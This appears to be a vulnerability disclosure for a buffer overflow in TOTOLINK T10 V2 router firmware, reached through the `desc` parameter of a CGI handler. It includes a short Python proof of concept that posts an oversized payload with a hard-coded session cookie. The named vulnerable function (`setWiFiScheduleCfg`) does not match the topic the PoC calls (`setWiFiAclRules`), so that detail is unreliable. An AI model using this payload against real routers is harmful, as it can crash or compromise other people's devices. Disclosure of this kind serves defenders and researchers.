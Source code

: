 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://totolink.com.my/products/t10/

## Affected version

T10 V2_Firmware V2_V4.1.8cu.5207

## Vulnerability details

In the T10 V2_Firmware V2_V4.1.8cu.5207 firmware has a buffer overflow vulnerability in the `setWiFiScheduleCfg` function. The `v8` variable receives the `desc` parameter from a POST request. However, since the user can control the input of `desc`, the `strcpy` can cause a buffer overflow vulnerability.

![image-20240902123605993](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902123605993.png)

![image-20240902123543507](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902123543507.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
"topicurl":"setWiFiAclRules",
"addEffect":"1",
"mac":"111",
"desc":"b"*0x1000,
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721012919451](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721012919451.png)
